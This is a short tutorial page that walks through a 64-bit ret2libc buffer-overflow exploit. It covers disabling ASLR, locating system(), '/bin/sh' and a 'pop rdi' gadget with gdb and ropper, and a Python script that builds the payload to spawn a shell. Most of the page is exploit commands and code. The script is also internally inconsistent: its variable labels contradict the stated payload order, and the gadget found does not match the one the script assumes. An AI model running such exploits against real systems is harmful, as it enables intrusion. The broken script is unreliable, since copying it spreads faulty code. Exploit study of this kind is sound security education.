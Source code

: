 ```yaml
---
layout: default
title: 64bit-Ret2Libc
---
```


<h2>{{ page.title }}</h2>

Precondition 

1. Disable ASLR: echo 0 > /proc/sys/kernel/randomize_va_space
2. The directory storing libc.so is known.

0x1 If "-z execstack" is off
---
Since the stack is not executable, we need to find gadgets(e.g. pop rdi; ret).

0x2 Address needed
---
1. Address 'a' of system() function
```
(gdb) b main     /*set breakpoint at main funtion*/
(gdb) run bof    /*execute the target program*/
(gdb) p system   /*print address of system()*/
```

2. Address 'b' of string “/bin/sh”
```
(gdb) p __libc_start_main
(gdb) find 0x7ffff7a5b1c0, +2200000, "/bin/sh" /*0x7ffff7a5b1c0 is the address of __libc_start_main*/
(gdb) x/s 0x7ffff7b9c879 /*0x7ffff7b9c879 is the address returned by last line, return value for this line should be "/bin/sh"*/
```

3. Address 'c' of “pop rdi;ret” (in X_64 RDI, RSI, RDX, RCX, R8 and R9 stores arguments)
```
ropper --file /lib/x86_64-linux-gnu/libc-2.24.so --search "pop rdi" /*search gadgets*/
0x000000000002079b: pop rdi; pop rbp; ret;  /*0x2079b is the offset of the gadgets in libc.so*/
```

4. payload is trash + c + b + a

0x4 Python code
---
```
#!/usr/bin/env python
from struct import *

buf = ""
buf += "A"*104                        # junk
buf += pack("<Q", a)                  # pop rdi; ret;
buf += pack("<Q", b)                  # pointer to "/bin/sh" gets popped into rdi
buf += pack("<Q", c)                  # address of system()

f = open("in.txt", "w")
f.write(buf)
```

<h2>{{ page.date | date_to_string }}</h2>
